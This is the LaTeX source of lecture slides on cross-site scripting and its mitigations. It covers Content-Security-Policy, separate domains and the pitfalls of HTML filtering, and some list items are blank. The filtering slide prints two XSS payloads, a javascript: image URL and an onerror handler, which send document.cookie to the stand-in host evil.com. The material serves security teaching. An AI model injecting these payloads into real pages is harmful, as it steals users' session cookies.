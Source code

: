 \begin{frame}{XSS demo}
\end{frame}


\section{XSS mitigations}

\begin{frame}<1-2>[label=XSSmits]{XSS mitigations}
    \begin{itemize}
    \item host dangerous stuff on different domain
        \begin{itemize}
        \item has different cookies
        \end{itemize}
    \item Content-Security-Policy
        \begin{itemize}
        \item server says ``browser, don't run scripts here''
        \end{itemize}
    \item {}
        \begin{itemize}
        \item server says ``browser, don't share this with code on the page''
        \end{itemize}
    \item {} (same as normal command injection)
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=HTMLFilterEscapeNits]{HTML filtering/escaping nits}
    \begin{itemize}
    \item it's easy to mess up HTML filtering or escaping
        \begin{itemize}
        \item (especially if trying to allow ``safe HTML'')
        \item browsers have features you don't know about
        \end{itemize}
    \item can `only' set image URL?
\begin{verbatim}
<img src="javascript:(new Image()).src=
                     'http://evil.com/' + document.cookie">
\end{verbatim}
    \item disallow the word `script'?
\begin{verbatim}
<img src=x onerror="(new Image()).src=
                   'http://evil.com/' + document.cookie">
\end{verbatim}

    \end{itemize}
\end{frame}


